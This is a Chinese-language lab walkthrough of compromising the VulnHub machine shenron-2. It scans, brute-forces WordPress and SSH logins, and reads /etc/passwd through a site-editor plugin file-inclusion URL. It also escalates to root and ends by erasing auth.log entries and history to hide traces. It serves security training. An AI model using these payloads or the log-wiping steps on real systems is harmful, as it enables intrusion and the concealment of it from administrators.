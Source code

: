 # 前言

靶机：`shenron-2`

攻击：`kali`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`

![](D:\stu\vulnhub\shenron靶场\pic-2\1.jpg)

# 信息收集

## 使用nmap扫描端口

![](D:\stu\vulnhub\shenron靶场\pic-2\2.jpg)

## 网站探测

访问80端口

![](D:\stu\vulnhub\shenron靶场\pic-2\3.jpg)

访问8080端口，可能是`wordpress`模板

![](D:\stu\vulnhub\shenron靶场\pic-2\4.jpg)

使用`whatweb`进行指纹识别

![](D:\stu\vulnhub\shenron靶场\pic-2\5.jpg)

使用`gobuster、dirsearch、ffuf、dirb、dirbuster`等工具进行目录扫描

扫描80端口

```shell
gobuster dir -u http://192.168.1.56 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,html,jpg -b 404
```

![](D:\stu\vulnhub\shenron靶场\pic-2\6.jpg)

访问`README.txt`，可能是作者名称等，收集起来

![](D:\stu\vulnhub\shenron靶场\pic-2\7.jpg)

扫描8080端口

```shell
gobuster dir -u http://192.168.1.56:8080 -w /usr/share/wordlists/dirb/big.txt -x php,zip,md,txt,html,jpg -b 404
```

![](D:\stu\vulnhub\shenron靶场\pic-2\9.jpg)



因为确认8080端口的是`wordpress`，所以采用专门的扫描工具进行测试

![](D:\stu\vulnhub\shenron靶场\pic-2\8.jpg)

![](D:\stu\vulnhub\shenron靶场\pic-2\10.jpg)

# 漏洞寻找

发现`admin`用户，尝试枚举密码

```shell
wpscan --url http://192.168.1.56:8080 -e u -P /usr/share/wordlists/fasttrack.txt 
```

![](D:\stu\vulnhub\shenron靶场\pic-2\11.jpg)

访问8080端口，点击登录，发现出现问题，域名解析问题

![](D:\stu\vulnhub\shenron靶场\pic-2\12.jpg)

修改`/etc/hosts`解析文件

![](D:\stu\vulnhub\shenron靶场\pic-2\13.jpg)

这时候再访问8080端口网站，发现显示正常了

![](D:\stu\vulnhub\shenron靶场\pic-2\14.jpg)

以`admin`和密码`admin`登录，寻找一圈发现插件中并无可用，使用`wp-scan`再次扫描，这次加上一些参数，并使用`wp-scan`官方的`api`，如果有漏洞，会列出

```shell
wpscan --url http://192.168.1.56:8080 -e ap --detection-mode aggressive --plugins-detection aggressive --api-token 【api】
```

检测出一堆，但是也只是可能有漏洞，这里经过对比后，发现有一个可以

![](D:\stu\vulnhub\shenron靶场\pic-2\15.jpg)

# 漏洞利用

查看用法

![](D:\stu\vulnhub\shenron靶场\pic-2\16.jpg)

构造链接进行测试

```shell
http://shenron:8080/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

发现两个用户`jenny`和`shenron`

![](D:\stu\vulnhub\shenron靶场\pic-2\17.jpg)

但是这里也只能进行文件包含，还是绝对路径

知道用户名，只能尝试弱密码爆破，因为实在无可用漏洞

![](D:\stu\vulnhub\shenron靶场\pic-2\18.jpg)

# 提权

## 提权至shenron

尝试进行ssh连接，可以，使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\shenron靶场\pic-2\19.jpg)

发现`sudo`，但是不允许当前用户使用，不过之前未见有过`execute`，下载 到本地查看一下

```shell
scp jenny@192.168.1.56:/usr/bin/Execute ./
```

![](D:\stu\vulnhub\shenron靶场\pic-2\20.jpg)

使用`strings`等工具进行查看

![](D:\stu\vulnhub\shenron靶场\pic-2\21.jpg)

发现执行该文件时，会把`bash`复制到`/nmt`目录下，并且给予777权限，更改用户为`shenron`，也给予SUID权限。

代表执行`Execute`后，在`/mnt`目录下有一个SUID权限的用户为`shenron`的bash

![](D:\stu\vulnhub\shenron靶场\pic-2\22.jpg)

使用`find`寻找关键字`pass`

```shell
find / -name "*pass*" 2>/dev/null
```

![](D:\stu\vulnhub\shenron靶场\pic-2\23.jpg)

查看这个文件，为什么这里不使用`sudo -l`，因为，这里的主用户还是`jenny`，所以不被允许

![](D:\stu\vulnhub\shenron靶场\pic-2\24.jpg)

这里我是猜测，毕竟很像`base`类型的编码，也可以使用网站识别`www.dcode.fr`

![](D:\stu\vulnhub\shenron靶场\pic-2\25.jpg)

## 提权至root

这一串，结合文件名，可能就是`shenron`的密码`ShEnRoNShEnRoNShEnRoNShEnRoNShEnRoN@ShEnRoN#ShEnRoNPaSsWoRd`

尝试登录，发现可以

![](D:\stu\vulnhub\shenron靶场\pic-2\26.jpg)

查看`bash`的所有者，发现是`root`，所以可以直接`sudo bash`

![](D:\stu\vulnhub\shenron靶场\pic-2\27.jpg)





# 清除痕迹

清理日志及历史记录等

可以使用

```shell
sed -i "/192.168.1.16/d" auth.log
```

为省事，后面都是直接置空

![](D:\stu\vulnhub\shenron靶场\pic-2\28.jpg)



# 总结

1. `wordpress`网站模板的漏洞使用，这里借助工具`wpscan`，不过需要`api-token`
2. 根据收集的信息进行弱密码爆破
3. 对于具有SUID权限的文件，最好是都看一下，尤其是可能没见到过的
4. 使用关键字搜索，如`pass、zip、bak`等















